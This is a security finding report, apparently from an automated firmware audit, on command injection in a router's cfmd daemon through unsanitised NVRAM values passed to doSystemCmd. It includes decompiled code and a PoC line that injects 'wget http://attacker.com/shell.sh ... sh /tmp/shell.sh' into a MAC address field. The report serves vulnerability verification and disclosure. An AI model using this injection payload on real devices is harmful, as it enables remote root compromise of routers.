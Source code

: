 - **文件/目录路径：** `bin/cfmd`
- **位置：** `cfmd:0x0000adf4 (function fcn.0000adf4)`
- **描述：** The cfmd daemon contains a command injection vulnerability due to unsanitized use of user-controlled NVRAM variables in system command execution. Trigger conditions occur when cfmd initializes network configurations or processes specific settings, reading NVRAM values via GetCfmValue and passing them directly to doSystemCmd without validation. An authenticated attacker can exploit this by setting malicious values in NVRAM variables (e.g., through web interface), leading to arbitrary command execution with root privileges. The code uses fixed-size buffers (e.g., 24 bytes) for these values, but command injection is possible if doSystemCmd utilizes shell execution, allowing bypass of buffer limits via shell metacharacters. Multiple code paths in fcn.0000adf4 exhibit this pattern, with data flowing from NVRAM to dangerous operations.
- **代码片段：**
  ```
  // Example code from decompilation showing vulnerable pattern
  sym.imp.GetCfmValue(iVar6 + *0xb9a4, puVar7 + iVar4 + -0x70);
  uVar2 = sym.imp.strlen(puVar7 + iVar4 + -0x70);
  if (uVar2 < 7) {
      sym.imp.sprintf(puVar7 + iVar4 + -0x70, iVar6 + *0xb994, *(puVar7 + -8), *(puVar7 + -0xc));
  }
  uVar3 = sym.imp.get_eth_name(0);
  sym.imp.doSystemCmd(iVar6 + *0xb98c, uVar3, puVar7 + iVar4 + -0x70);
  ```
- **备注：** The vulnerability relies on doSystemCmd using shell execution (e.g., via system() call), which is plausible given the command templates observed in strings (e.g., 'ifconfig %s down'). Full exploitation requires the attacker to set NVRAM variables through another interface (e.g., web GUI), but this is consistent with the attack scenario. Further analysis should verify the implementation of doSystemCmd in shared libraries like libcommon.so. Additional unsafe functions (strcpy, sprintf) are present but not directly linked to exploitable chains in this analysis.

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了cfmd中的命令注入漏洞。证据来自bin/cfmd的函数fcn.0000adf4的反汇编代码：
- GetCfmValue被调用读取NVRAM变量（如'wan1.macaddr'、'wan2.macaddr'、'lan.macaddr'等）到固定大小缓冲区（如var_70h，24字节）。
- 这些值直接传递给doSystemCmd执行系统命令（如'ifconfig %s hw ether %s'），没有输入清理或验证。
- 攻击者模型：经过身份验证的远程攻击者可以通过Web界面等设置NVRAM变量，控制输入。
- 路径可达：函数在cfmd初始化网络配置时被调用，代码路径在strlen检查后执行（长度大于6时）。
- 实际影响：doSystemCmd以root权限执行，允许任意命令执行。

PoC步骤：攻击者通过Web界面设置NVRAM变量（如wan1.macaddr）为恶意值：'aa; wget http://attacker.com/shell.sh -O /tmp/shell.sh; sh /tmp/shell.sh'。当cfmd重新初始化时，会执行命令'ifconfig eth0 hw ether aa; wget http://attacker.com/shell.sh -O /tmp/shell.sh; sh /tmp/shell.sh'，导致任意命令执行。漏洞风险高，因为无需物理访问，可远程利用，且影响严重。

## 验证指标

- **验证时长：** 175.97 秒
- **Token 使用量：** 194844

---
